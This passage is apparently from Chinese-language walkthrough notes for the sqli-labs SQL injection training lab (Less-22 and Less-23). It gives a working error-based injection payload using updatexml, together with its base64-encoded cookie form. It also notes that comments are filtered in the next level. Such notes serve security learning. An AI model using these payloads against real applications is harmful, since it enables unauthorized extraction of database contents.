 ### Less-22：POST-Cookie lnjection - base64 encoded - double quotes

**注入类型**

cookie注入

**闭合方式**

id="\$id"

```sql
admin" and  updatexml(1,concat(0x7e,database()),1)#
//转换后
YWRtaW4iIGFuZCAgdXBkYXRleG1sKDEsY29uY2F0KDB4N2UsZGF0YWJhc2UoKSksMSkj
```

![](file/image_ZMCp-aPDgh.png)

### Less-23：GET - Error based - strip comments

**注入类型**

报错注入

**闭合方式**

id='\$id'

```sql
//分析源码发现这题对注释进行过滤
```
